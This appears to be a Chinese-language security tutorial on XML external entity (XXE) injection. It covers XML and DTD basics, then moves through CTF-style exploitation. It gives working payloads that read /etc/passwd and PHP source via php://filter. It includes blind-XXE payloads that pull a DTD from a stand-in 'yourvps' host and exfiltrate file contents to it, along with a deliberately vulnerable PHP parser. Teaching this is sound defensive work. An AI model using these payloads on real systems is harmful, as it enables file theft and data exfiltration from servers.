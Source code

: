 # XML实体注入

## 基础知识

XML（Extensible Markup Language）被设计用来传输和存储数据。关于它的语法，本文不准备写太多，只简单介绍一下。

### XML基本知识

```markup
<?xml version="1.0" encoding="utf-8"?>
<note>
<to>chybeta</to>
<from>ph0en1x</from>
</note>
```

在上面代码中的第一行，定义XML的版本与编码。

在XML文档中，所有的元素都必须正确的嵌套，形成树形结构。并且整个XML文档中必须要有一个根元素。如上代码，`<note>`是整个文档的根元素。嵌套在note标签中的`<to>`和`<from>`则是根的子元素。

同时，所有的XML元素都必须有关闭标签，这点不像html语法那样松散。如果缺失关闭标签，则会导致XML解析失败。

### 实体

所有的XML文档都由五种简单的构建模块（元素，属性，实体，PCDATA CDATA）构成。这里着重介绍一下实体：实体是用于定义引用普通文本或特殊字符的快捷方式的变量，实体引用是对实体的引用。实体可在内部或外部进行声明。因此我们利用引入实体，构造恶意内容，从而达到攻击的目的。

#### 实体类型

XML实体分为四种：字符实体，命名实体，外部实体，参数实体。

### 文档类型定义：DTD

wikipedia关于这的描述是:The XML DTD syntax is one of several XML schema languages。简单的说，DTD的作用是定义XML文档的合法构建模块。如前所述，实体也是构建模块之一。因此可以利用DTD来内部或外部引入实体。

其基本格式：

```markup
<!DOCTYPE 根元素名 [  元素描述   ]>
```

#### 内部引入

格式：

```markup
<!ENTITY 实体名称 "实体的值">
```

将DTD和XML放在同一份文档中，利用DTD定义的实体即为内部实体。

```markup
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
    <!ENTITY  chybeta  "Hello World!">    
]>  
<xxe>  
    &chybeta;
</xxe>
```

访问该XML文档，`&chybeta;`会被解析为Hello World!并输出。

#### 外部引入

基本格式：

```markup
<!ENTITY 实体名称 SYSTEM "URI">
```

通过引用定义在外部的DTD中的实体，我们称之为外部实体。 由于xxe漏洞主要利用的是外部实体，所以这里暂不展开。具体实例见下。

## 利用方式

### xxe注入

以php环境为例，index.php内容如下：

```php
<?php
  $xml=simplexml_load_string($_GET['xml']);
  print_r((string)$xml);
?>
```

#### 读取本地文件

![](https://thief.one/upload_image/20170620/1.png)

利用各种协议可以读取文件。比如file协议，这里的测试环境为win，所以这里我选择读取c盘里的TEST.txt。

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "file:///c://TEST.txt">]>
<root>&file;</root>
```

将上述xml进行url编码后传进去，可以发现读取了TEST.txt中的内容。 ![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/2.jpg?raw=true)

我这里测试时，如果不进行url编码则不能成功解析。

若使用fill协议，在unix环境下，可以用如下xml来读取passwd：

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>
```

如果要读取php文件，因为php、html等文件中有各种括号`<`，`>`，若直接用file读取会导致解析错误，此时可以利用`php://filter`将内容转换为base64后再读取。

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&file;</root>
```

这里同样先经过url编码后再传入。读取结果如下: ![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/3.jpg?raw=true)

#### 命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。这里暂不进行测试。

#### 内网探测/SSRF

由于xml实体注入攻击可以利用`http://`协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

### bind xxe

以php环境为例，现在更改index.php内容如下：

```php
<?php
  $xml=simplexml_load_string($_GET['xml']);
?>
```

少了print\_r，即没有回显消息。这个时候我们可以利用参数实体，通过发起http请求来攻击。

#### 读取本地文件

**payload1**

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://TEST.txt">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %all;
]>
<value>&send;</value>
```

在我的vps的xxe.xml的内容如下：

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://yourvps/%file;'>">
```

而测试文件TEST.txt内容为：

```text
chybeta
```

整个的调用过程如下：解析时`%dtd`引入xxe.xml，之后`%all`引入`send`的定义，最后引用了实体send，把`%file`文件内容通过一个http请求发了出去。注意需要把payload经过url编码。查看vps上的access.log：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/4.jpg?raw=true)

若要读取php等文件，同样需要先经过base64加密下。

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %all;
]>
<value>&send;</value>
```

查看access.log: ![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/5.jpg?raw=true)

**payload2**

发送的xml：

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data  [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %send;
]>
```

而在vps上的xxe.xml内容为：

```markup
<!ENTITY % payload2 "<!ENTITY &#x25; send SYSTEM 'http://yourvps/%file;'>"> %payload2;
```

注意的是，`&#25;` 不能直接写成`%`，否则无法解析。

xxe.xml中定义和引用了`%payload2`,在通过`%dtd`引入xxe.xml后，得以使用符号实体%send来进行发送。其中%file为读取的文件内容。查看access.log:

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/6.jpg?raw=true)

## ctf

### 小试牛刀

拿jarvisoj平台上的题目来小试牛刀吧。

题目：[api调用](http://web.jarvisoj.com:9882/)

题目描述：请设法获得目标机器/home/ctf/flag.txt中的flag值

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/7.jpg?raw=true)

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/8.jpg?raw=true)

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/9.jpg?raw=true)

### xxe相关WP

* [AliCTF-Quals-2014 WebA-300](http://z1ng.net/post/thoughts/alictf-2014-writeup)
* [HCTF-2016 大图书管的牧羊人&&魔法禁书目录](https://github.com/iAklis/epub-library-challenge)
* [GoSecure-CTF-2015 web-300](https://gist.github.com/h3xstream/3d51b99f651548f7fa2b)

